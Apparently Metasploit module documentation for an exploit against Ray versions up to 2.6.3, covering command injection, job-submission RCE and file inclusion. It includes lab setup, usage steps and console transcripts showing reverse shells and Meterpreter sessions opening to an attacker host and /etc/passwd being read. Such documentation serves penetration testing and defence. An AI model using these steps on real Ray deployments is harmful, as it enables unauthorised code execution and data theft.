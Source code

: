 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to three vulnerabilities:

    * RCE via cpu_profile command injection vulnerability (CVE-2023-6019)
    * RCE via the agent job submission endpoint (No CVE)
    * local file inclusion (CVE-2023-6020)

This module exploits all three vulnerabilities.

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_cmdi_rce_lfi`
4. Do: `set rhost <rhost>`
5. Optional: `set rport <port>`
6. Do: `set lhost <attacker-ip>`
7. Optional: `set ATTACK <attack>`
8. Do: `run`
9. You should get a shell or meterpreter

## Options

### ATTACK (required)

This is the attack type to use. Default is CMDi (`CVE-2023-6019`). but RCE (No CVE) and LFI (`CVE-2023-6020`) can also be chosen.

### COMMAND (Optional)

This is the command to execute. Default is `echo 'Hello from Metasploit'`. This is used when ATTACK is set to `CMDi` or `RCE`.
This is required when ATTACK is RCE.

### FILEPATH (Optional)

This is the file to read. Default is `/etc/passwd`. This is used and required when ATTACK is set to `LFI`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CMDi, target 0)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/gSfnYt3
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /gSfnYt3
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:40066) at 2024-08-07 21:00:50 +0900
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (CMDi, target 1)
```
msf6 > use exploit/linux/http/ray_cmdi_rce_lfi
[*] Using configured payload linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Grabbed node info, pid: 124, ip: 172.17.0.2
[+] Command execution seems to have been successful. Status code: 500
[*] Using URL: http://192.168.56.1:8080/l7pOn5OcI8ed4P
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /l7pOn5OcI8ed4P
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:34826) at 2024-08-07 21:02:30 +0900
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 0)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack RCE
attack => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 0
target => 0
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_hUcEzX4nBCdr5m3m' Submission ID: 'raysubmit_hUcEzX4nBCdr5m3m'
[*] Using URL: http://192.168.56.1:8080/lISIUc6V
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /lISIUc6V
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (38 bytes) to 192.168.56.6
[*] Command shell session 6 opened (192.168.56.1:4444 -> 192.168.56.6:49312) at 2024-08-07 21:07:51 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (RCE, target 1)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack RCE
attack => RCE
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set target 1
target => 1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_arSdaUWQZPCJy4mr' Submission ID: 'raysubmit_arSdaUWQZPCJy4mr'
[*] Using URL: http://192.168.56.1:8080/OPTAuZv1pjimlr
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /OPTAuZv1pjimlr
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 5 opened (192.168.56.1:4444 -> 192.168.56.6:45048) at 2024-08-07 21:06:40 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (LFI)
```
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > set attack LFI
attack => LFI
msf6 exploit(linux/http/ray_cmdi_rce_lfi) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash
```
